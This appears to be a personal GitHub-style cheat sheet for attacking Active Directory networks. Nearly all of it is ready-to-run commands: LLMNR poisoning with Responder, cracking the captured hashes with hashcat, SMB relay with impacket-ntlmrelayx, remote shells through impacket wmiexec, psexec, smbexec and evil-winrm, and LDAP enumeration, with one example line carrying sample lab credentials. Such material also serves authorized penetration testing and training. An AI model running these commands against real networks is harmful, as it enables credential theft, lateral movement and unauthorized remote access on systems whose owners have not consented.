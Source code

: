 ## AD CheatSheet
My AD exploitation cheatsheet.

### LLMNR Poisoning

1- Responder:

    responder -I eth0 -v

2 - Crack Hash:

    hashcat -m 5600 HASH_FILE WORDLIST --force

**Refs:** https://hashcat.net/wiki/doku.php?id=example_hashes

### SMB Relay
This attack needs smb singing disable or not required (use nmap **smb2-security-mode** nse script) and it requires that both targets have the same user with administrator privileges.

Step 1 - Responder: (Note: Disbale SMB and HTTP on **responder.conf**)

    responder -I eth0 -v

Step 2 - impacket-ntlmrelayx (NTLM Hashes)

    impacket-ntlmrelayx -t RELAY_TARGET_IP -smb2support

Step 3 - impacket-ntlmrelayx (Intercative Shell)

    impacket-ntlmrelayx -t RELAY_TARGET_IP -smb2support -i

### Shell (PsExec, WMIexec, evil-winrm)

WMIExec

    impacket-wmiexec DOMAIN/USER:'PASSWORD'@TARGET_IP -shell-type powershell

PSexec

    impacket-psexec DOMAIN/USER:'PASSWORD'@TARGET_IP 

SMBExec

    impacket-smbexec DOMAIN/USER:"PASSWORD"@TARGET_IP -shell-type powershell

Evil-Winrm

    evil-winrm -i TARGET_IP -u 'USER' -p 'PASSWORD'

### LDAP Enumeration

ldapdomaindump

    ldapdomaindump -u DOMAIN\\\USER -p PASSWORD TARGET_IP

ldapsearch

**Reference_Link**: https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap

    Exemplo: ldapsearch -x -H ldap://192.168.5.129 -D 'MARVEL\frank.castle' -w 'Password1' -b "CN=Domain Admins,OU=Groups,DC=MARVEL,DC=local"
